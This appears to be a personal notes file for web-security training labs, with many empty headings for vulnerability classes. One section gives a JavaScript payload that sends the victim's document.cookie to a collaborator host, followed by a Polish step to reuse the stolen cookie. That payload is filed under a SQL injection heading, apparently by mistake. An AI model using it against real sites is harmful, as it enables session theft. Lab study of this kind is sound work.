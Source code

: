 ## SQL injection
### Blind SQL injection with out-of-band data exfiltration
1. Exploit server:
```js
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
2. Podnieniamy cookie na zdobyte i wchodzimy na '/my-account`

### SQL injection with filter bypass via XML encoding

## Cross-site scripting
### Exploiting cross-site scripting to steal cookies

## Cross-site request forgery (CSRF)

## Clickjacking

## DOM-based vulnerabilities

## Cross-origin resource sharing (CORS)

## XML external entity (XXE) injection

## Server-side request forgery (SSRF)
### SSRF with blacklist-based input filter
 
## HTTP request smuggling
### Exploiting HTTP request smuggling to capture other users' requests

## OS command injection

## Server-side template injection

## Directory traversal

## Access control vulnerabilities

## Authentication
### Brute-forcing a stay-logged-in cookie

## WebSockets

## Web cache poisoning

## Insecure deserialization

## Information disclosure

## Business logic vulnerabilities

## HTTP Host header attacks

## OAuth authentication
### Forced OAuth profile linking

## File upload vulnerabilities

## JWT

## Essential skills
### Discovering vulnerabilities quickly with targeted scanning

## Prototype pollution
